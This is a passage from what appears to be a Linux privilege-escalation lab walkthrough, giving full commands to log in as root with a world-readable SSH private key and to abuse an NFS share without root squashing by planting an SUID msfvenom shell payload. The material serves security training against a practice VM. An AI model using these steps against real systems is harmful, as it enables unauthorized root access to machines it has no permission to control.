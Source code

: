 Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```bash
chmod 600 root_key
```

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):

```bash
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@$IP
```

## 19. NFS

NFS (Network File System) is a protocol that allows remote systems to mount file systems over a network.

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```bash
cat /etc/exports
```

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

```bash
sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission:

```bash
chmod +xs /tmp/nfs/shell.elf
```
